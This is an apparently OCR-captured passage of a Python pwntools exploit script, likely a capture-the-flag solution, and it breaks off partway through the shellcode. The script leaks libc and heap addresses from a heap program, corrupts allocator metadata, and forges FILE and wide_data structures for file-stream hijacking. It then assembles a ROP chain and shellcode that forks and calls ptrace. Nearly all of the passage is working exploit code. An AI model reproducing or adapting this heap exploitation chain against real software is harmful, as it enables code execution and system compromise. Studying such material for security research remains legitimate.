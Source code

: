 ```python
    io.sendlineafter(b'Index: ',str(index))
    io.sendafter(b'Content: ',content)
def show(index):
    io.sendlineafter(b'Exit',b'4')
    io.sendlineafter(b'Index: ',str(index))

add(0,0x510)
add(1,0x508)
add(2,0x500)
delete(0)
add(3,0x520)
show(0)
libc_base = u64(io.recv(0x6).ljust(0x8,b'\x00')) - 0x1f70f0
edit(0,b'aaaaaaaa'*2)
show(0)
io.recvuntil(b'aaaaaaaaaaaaaaaa')
heap_base = u64(io.recv(0x6).ljust(0x8,b'\x00')) - 0x290
log.success(hex(libc_base))
log.success(hex(heap_base))
edit(0,p64(libc_base + 0x1f70f0)*2 + p64(heap_base + 0x290) + p64(libc_base + 0x1f7640))
delete(2)
add(4,0x520)

fake_io_list = b'\x00'*0x18 + p64(0x1) + b'\x00'*0x18 + p64(heap_base + 0x1710) + b'\x00'*0x50 + p64(heap_base + 0x2c0) + b'\x00'*(0xd8-0xa8) + p64(libc_base + 0x1f30a0)
edit(2,fake_io_list)

fake_wide_data = b'\x00'*0x100 + p64(heap_base + 0x11f0)
edit(0,fake_wide_data)
fake_wide_data_vtable = b'\x00'*0x78 + p64(libc_base + 0x1630aa)
edit(3,fake_wide_data_vtable)

leave_ret = libc_base + 0x50877
rax = libc_base + 0x3fa43
rdi = libc_base + 0x23b65
rsi = libc_base + 0x251be
rcx = libc_base + 0x99a83
rdx_rbx = libc_base + 0x8bcd9
r8 = libc_base + 0x8c41b # pop r8; test ecx, ecx; jne 0x8c428; ret;

syscall = libc_base + 0x10CD92
system = libc_base + 0x4e520

mmap = flat(rax,0xA,rdi,heap_base,rsi,0x21000,rdx_rbx,0x7,0x0,syscall,(heap_base + 0x1788))

order1 = b'/bin/sh'[::-1].hex()

shellcode = asm(f'''
    mov rax, 57
    syscall
    cmp rax, 0
    je child_process
parent_process:
    mov rsi, rax
    mov r8,  rax

    mov rax, 101
    mov rdi, 0x10
    xor rdx, rdx
    xor r10, r10 
    syscall                 /* ptrace(PTRACE_ATTACH, child_pid, 0, 0) */
monitor_child:
    mov rdi, r8
```